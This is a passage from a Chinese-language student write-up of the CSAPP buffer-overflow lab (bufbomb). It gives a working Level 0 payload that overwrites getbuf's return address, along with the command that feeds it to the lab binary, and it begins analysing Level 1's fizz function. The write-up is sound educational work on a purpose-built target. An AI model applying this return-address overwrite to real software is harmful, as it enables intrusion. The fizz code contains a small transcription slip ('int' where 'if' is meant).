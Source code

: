 ```cpp
 leave  
 ret    
/*
解题过程：
在getbuf函数中
lea    -0x28(%ebp),%eax
mov    %eax,(%esp)
两句将 %ebp - 0x28 的值放在了栈顶
此值向Gets函数传参
(栈顶地址为 %ebp - 0x38 不重要，只是顺便一提)
而%ebp的值为此函数栈底地址(此前有 mov %esp,%ebp)
故Gets函数的参数(即存放读入数据的起始地址)离栈底的距离为0x28+0x4
加0x4是因为在栈底保存了ebp的值(push %ebp)
level0.txt内容如下
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 18 8c 04 08
然后
cat level0.txt|./hex2raw|./bufbomb -u random
*/
```
<img width="601" alt="image" src="https://github.com/RaDsZ2z/CSAPP/assets/129292565/83365899-b9d3-452e-9367-286656585768">

### 6.2.关于 leave 指令
getbuf函数倒数第二行有leave指令，第一次见

它相当于
```
mov %ebp, %esp
pop %ebp
```


## <div id="level1">7.Level 1:Sparkler(10 pts)</div>
BUFBOMB中的fizz函数有如下C语言代码
```C
void fizz(int val){
    int (val == cookie){
        printf("Fizz!: You called fizz(0x%x)\n", val);
        validate(1);
    } else 
        printf("Misfire: You called fizz(0x%x)\n", val);
    exit(0);
}
```
与level0类似，你的任务是让BUFBOMB执行fizz函数而不是返回到test函数。然而，在这种情况下你必须让它看起来传递了参数cookie。
### 7.1.一些建议
请注意程序不会真正调用fizz——而只是执行它的代码。这对你在堆的什么位置放置你的cookie有重要的影响。
```cpp
//解题过程：
//fizz函数汇编代码翻译
push %ebp;
%ebp = %esp;
%esp -= 0x18;
%eax =(%ebp) + 0x8
//if(0x804d108 == (%esp) + 0x4){这一句抄错了，导致我找了起码两个小时的bug
//正确的应该是下一句
if( (0x804d108) == eax ){
    (%esp) + 0x8 = %eax;
    (%esp) + 0x4 = 0x804a4ee;　
```